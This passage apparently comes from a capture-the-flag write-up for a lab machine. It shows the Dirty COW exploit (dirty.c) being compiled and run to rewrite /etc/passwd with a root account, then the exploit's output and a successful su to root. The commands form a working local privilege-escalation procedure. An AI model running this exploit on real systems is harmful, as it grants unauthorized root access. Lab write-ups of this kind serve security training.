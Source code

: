 ```
// https://firefart.at
//
```

We follow the instructions and run the following command from our target machine :

```
sed -i 's/firefart/root/g'
gcc -pthread dirty.c -o dirty -lcrypt
./dirty

laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
root:rop7p1ajG/5R.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'coolcoolcool'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'coolcoolcool'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su - root
Password:
root@BornToSecHackMe:~# whoami
root
```

